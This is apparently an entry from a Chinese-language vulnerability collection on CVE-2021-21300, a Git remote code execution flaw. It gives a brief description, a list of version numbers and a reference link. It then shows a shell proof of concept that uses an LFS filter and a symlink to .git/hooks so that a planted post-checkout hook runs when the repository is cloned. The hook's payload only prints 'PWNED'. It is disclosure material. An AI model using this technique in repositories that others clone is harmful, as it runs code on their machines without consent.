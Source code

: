 # Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

# Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

```
v2.17.6
v2.18.5
v2.19.6
v2.20.5
v2.21.4
v2.22.5
v2.23.4
v2.24.4
v2.25.5
v2.26.3
v2.27.1
v2.28.1
v2.29.3
v2.30.2
```

## 漏洞复现

参考文章: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞POC

```bash
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```

